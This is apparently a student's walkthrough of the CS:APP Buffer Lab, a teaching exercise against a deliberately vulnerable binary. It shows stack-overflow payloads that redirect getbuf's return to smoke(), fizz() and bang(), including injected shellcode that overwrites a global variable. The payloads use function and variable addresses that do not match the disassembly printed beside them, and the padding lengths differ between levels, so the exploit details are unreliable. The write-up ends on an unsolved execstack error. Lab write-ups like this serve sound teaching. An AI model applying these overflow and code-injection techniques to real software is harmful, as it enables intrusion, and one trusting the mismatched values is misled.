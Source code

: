 # CS:APP Buffer Lab

### 0. Preface

```c
void test() 
{
    int val;
    /* Put canary on stack to detect possible corruption */ 
    volatile int local = uniqueval();

    val = getbuf();

    /* Check for corrupted stack */ 
    if (local != uniqueval()) {
        printf("Sabotaged!: the stack has been corrupted\n"); 
    }
    else if (val == cookie) {
        printf("Boom!: getbuf returned 0x%x\n", val); 
        validate(3);
    } 
    else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

```
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

```
// Stack Frame

.bottom (high address)
+ - - - - - - - - - - + ----
|                     | previous frame
|         ...         |
|                     |
| - - - - - - - - - - | ----
|         ...         | caller's frame
| - - - - - - - - - - |
|      argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
| - - - - - - - - - - |
|    return address   |
| - - - - - - - - - - | ----
|        %rbp         | callee's frame (current)
| - - - - - - - - - - |
|   saved registers   |
| - - - - - - - - - - |
|       local n       |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|       local 1       |
| - - - - - - - - - - |
|      argument n     |
| - - - - - - - - - - |
|         ...         |
| - - - - - - - - - - |
|      argument 7     |
+ - - - - - - - - - - + <- %rsp
.top (low address)
```



### 1. Candle

Goal: Before `getbuf()` returns, call `smoke()` instead of returning `test()`.

```c
void smoke()
{
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

```
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

According to `0x80491fa` in `getbuf()`, we can learn that the length of the buffer in stack is `0x28`. Through the structure of stack frame, we can input excess words to buffer to overwrite the stack pointer and return address of `getbuf()`. So we can fill previous `0x28` bytes with any digits, then add extra address of `smook()` entrance, which is `18 8c 04 08`(little endian).

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08
```

Then, convert these bytes to characters using `hex2raw` and send them to buffer.

```
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```



### 2. Sparkler

Goal: Before `getbuf()` returns, call `fizz()` instead of returning `test()`, and pass the cookie as its argument.

```c
void fizz(int val)
{
    if (val == cookie) {
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```

```
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

Generally, the argument will be stored in `0x8(%ebp)`, so we can put additional bytes as argument after return address.

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 42 8c 04 08 00 00 00 00 45 32 2a 1c
```

Note that `42 8c 04 08` is the address of `fizz()`, and the `45 32 2a 1c` is the cookie. Both of them are represented in little endian.

```
Type string:Fizz!: You called fizz(0x1c2a3245)
VALID
NICE JOB!
```



### 3. Firecracker

Goal: Before `getbuf()` returns, call `bang()` instead of returning `test()`, and change the global variable to the cookie.

```c
int global_value = 0;

void bang(int val)
{
    if (global_value == cookie) {
    	printf("Bang!: You set global_value to 0x%x\n", global_value);
    	validate(2);
    } else
    	printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```

We can't change the code in `test()` or `bang()`, what we can do to change the global value? The answer is the buffer, we can inject code into the buffer. 

We can get the address of `global_value` through disassembly code, it is `0x0804d100`. By setting break point in `getbuf()`, we can get the buffer address.

```
(gdb) p/x ($ebp-0x28)
$1 = 0x55683be8
```

The code we are going to inject into buffer does two main things, change global value and change return address to `bang()`.

```
00000000 <.text>:
   0:	c7 05 00 d1 04 08 45 	movl   $0x1c2a3245,0x804d100
   7:	32 2a 1c 
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret  
```

The code is 16 bytes large, will not destroy the structure of stack frame. The input bytes are shown below.

```
c7 05 00 d1 04 08 45 32 2a 1c 68 60 8d 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e8 3b 68 55
```

Note that the program need to be executed in `gdb` with `execstack`. It should be

```
Type string:Bang!: You set global_value to 0x1c2a3245
VALID
NICE JOB!
```

But, I bumped this problem while using `execstack` and couldn't solve it. 

```
> execstack -s bufbomb
execstack: bufbomb: section file offsets not monotonically increasing.
```

